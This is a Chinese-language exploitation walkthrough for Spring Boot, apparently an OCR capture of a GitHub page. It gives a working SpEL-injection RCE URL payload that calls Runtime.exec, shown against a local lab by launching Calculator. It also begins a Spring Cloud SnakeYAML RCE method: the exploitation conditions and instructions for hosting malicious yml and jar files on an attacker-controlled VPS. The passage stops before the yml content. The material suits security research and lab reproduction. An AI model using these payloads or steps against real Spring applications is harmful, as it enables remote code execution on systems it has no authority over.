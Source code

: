 1.  spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
    
2.  此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
    
3.  其中 `${}` 包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞
    

#### 漏洞分析：

 SpringBoot SpEL 表达式注入漏洞 - 分析与复现

#### 漏洞环境：

repository/springboot-spel-rce

正常访问：

```
http://127.0.0.1:9091/article?id=66


```

执行 `open -a Calculator` 命令：

```
http://127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}

```

### 0x02：spring cloud SnakeYAML RCE

#### 利用条件：

*   可以 POST 请求目标网站的 `/env` 接口设置属性
    
*   可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
    
*   目标依赖的 `spring-cloud-starter` 版本 < 1.3.0.RELEASE
    
*   目标可以请求攻击者的 HTTP 服务器（请求可出外网）
    

#### 利用方法：

##### 步骤一：托管 yml 和 jar 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80

```

在网站根目录下放置后缀为 `yml` 的文件 `example.yml`，内容如下：

